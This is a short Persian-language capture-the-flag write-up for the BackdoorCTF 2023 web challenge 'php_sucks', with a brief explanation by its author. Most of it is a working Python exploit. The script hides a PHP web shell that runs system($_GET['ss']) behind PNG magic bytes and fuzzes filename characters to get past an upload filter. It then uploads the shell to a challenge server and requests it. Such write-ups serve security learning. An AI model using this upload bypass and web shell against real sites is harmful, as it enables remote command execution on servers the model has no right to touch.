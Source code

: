 ```yaml
---
tags:
  - BackdoorCTF
  - BackdoorCTF-2023
  - Web
  - PHP
  - Uploader_Bypass
---
```


[آرشیو چلنج](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/BackdoorCTF/2023/web/php_sucks)

```python
import re
import requests

file = io.BytesIO()
file.write(bytes.fromhex("89 50 4E 47 0D 0A 1A 0A"))
file.write(b'<?php echo system($_GET[\'ss\']); ?>')
for i in range(30, 40): # $ will work
    file.seek(0)
    name = 'ssss.php' + chr(i) + ".png"
    print(name)
    try:
        r = requests.post('http://34.132.132.69:8002/chal/upload.php', files=[('file', (name, file, 'image/jpeg'))], data={"submit": "", "name": "SS"}).content.decode()
        url = "http://34.132.132.69:8002/chal/" + re.search(r'<a href=\'(.*?)\' target=', r).group(1)
        print(i, requests.get(url).content)
    except:
        pass
```

یه کد بایپس آپلود ساده که بر اساس magic byte های png داره بایپس میکنه

سر اسم فایل آپلود شده یکم چالش بر انگیز بود که معلوم شد کاراکتر $ میتونه باعث بشه که فایل png بره سمت php handler و کد اکسپلویت اجرا بشه

از اونجایی که این کاراکتر بهمون وحی نشده، کد رو بصورت فازر نوشتم و پیداش کردم =))

!!! نویسنده
    [SafaSafari](https://twitter.com/SafaSafari3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۴